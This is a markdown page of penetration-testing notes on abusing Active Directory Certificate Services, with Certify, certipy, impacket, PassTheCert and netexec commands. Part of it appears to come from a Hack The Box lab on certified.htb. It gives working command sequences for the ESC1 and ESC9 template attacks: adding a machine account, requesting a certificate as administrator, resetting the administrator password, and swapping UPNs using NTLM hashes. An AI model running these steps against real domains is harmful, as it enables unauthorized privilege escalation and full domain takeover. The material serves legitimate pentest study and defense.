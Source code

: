 +++
title = "Pentest - Active Directory - Certificate Services"
author = ["svejk"]
tags = ["cert", "activeDirectory", "pentest"]
draft = false
+++

## Active Directory Certificate Services {#active-directory-certificate-services}

[social.technet.microsoft.com](https://social.technet.microsoft.com/wiki/contents/articles/3063.certutil-examples-for-managing-active-directory-certificate-services-ad-cs-from-the-command-line.aspx)

Active Directory Certificate Services (AD CS) is an Active Directory server role which allows users to build PKI (Public Key Infrastructure). This can provide practical solutions for VPN access, SSL/TLS certificates and smart card logons, amongst other similar ubiquitous technologies you are likely to encounter on a daily basis. [medium - shaun whorton](https://medium.com/@shaunwhorton/active-directory-certificate-services-domain-dominance-9ba2c54988d7)


## Abusing misconfigured certificate templates {#abusing-misconfigured-certificate-templates}

Use `Certify.exe` to enumerate Certificate Services [GhostPack/Certify](https://github.com/GhostPack/Certify)

```sh
PS C:\ > .\Certify.exe find /vulnerable
```

{{< figure src="/images/certify1.png" >}}

Here's an example of a vulnerable cert template, which is used for client authentication.  Domain Users have enrollments rights, and they're also permitted to supply the subject (msPKI-Certificate-Name-Flag : ENROLLEE_SUPPLIES_SUBJECT)

{{< figure src="/images/certify2.png" >}}


### Python {#python}

<https://github.com/ly4k/Certipy>

[specterops - certified pre-owned](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)


## Examples {#examples}


### ESC1 vulnerability {#esc1-vulnerability}

{{< figure src="/images/certify3.png" >}}

-   Client Authentication: True - an issued certificate can be used for client authentication purposes.

-   Enrollee Supplies Subject : True - a Subject Alternative Name can be specified which allows a certificate to be requested as another user on the system (e.g., administrator).

-   Requires Manager Approval : False - a requested certificate doesn't require approval from a user with certificate manager permissions.

-   Enrollment Rights : Domain\Domain Computers - this gives low-level users the ability to request a certificate by simply joining a computer to the domain.

User happens to be able to join machines to the domain -- from **whoami /priv**

```sh
  Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
```

Use impacket to join a computer to the domain:

```sh
addcomputer.py 'domain/<user>:<pw>' -method LDAPS -computer-name 'PC01' -computer-pass 'Welcome123'
```

Use <span class="underline">certipy</span> to request cert for admin

```sh
certipy req -username 'PC01$' -password 'Welcome123' -ca AUTHORITY-CA -target <ip> -template '' -upn 'administrator@domain'
```

Can try to auth

```sh
certipy auth -pfx administrator.pfx
```

In this case there's a kerberos session error -&gt; authenticate with LDAP instead of kerberos.  Use [PassTheCert](https://github.com/AlmondOffSec/PassTheCert?source=post_page-----8d6bbd770266--------------------------------) -- first convert

```sh
certipy cert -pfx administrator.pfx -nokey -out user.crt
```

```sh
certipy cert -pfx administrator.pfx -nocert -out user.key
```

Then, eg, change the admin password:

```sh
python3 passthecert.py -action modify_user -crt user.crt -key user.key -domain <domain> -dc-ip <ip> -target administrator -new-pass
```


### Using `netexec` {#using-netexec}

Enumerate services

```shell { linenos=true, linenostart=1 }
nxc ldap certified.htb -u management_svc -H a091c1832bcdd4677c28b5a6a1295584 -M adcs
```

Determine vulnerabilities

```shell { linenos=true, linenostart=1 }
certipy find -u ca_operator@certified.htb -hashes b4b86f45c6018f1b664f70805f45d8f2 -vulnerable -stdout
```


#### ESC9 {#esc9}

Can modify the UPN of users.

```shell { linenos=true, linenostart=1 }
certipy-ad account update -username management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn Administrator
```

Then request a certificate

```shell { linenos=true, linenostart=1 }
certipy-ad req -username ca_operator@certified.htb -hashes b4b86f45c6018f1b664f70805f45d8f2 -ca certified-DC01-CA -template
CertifiedAuthentication -debug
```

And change the UPN back:

```shell { linenos=true, linenostart=1 }
certipy-ad account update -username management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn ca_operator@certified.htb
```

[masky](https://z4ksec.github.io/posts/masky-release-v0.0.3/)
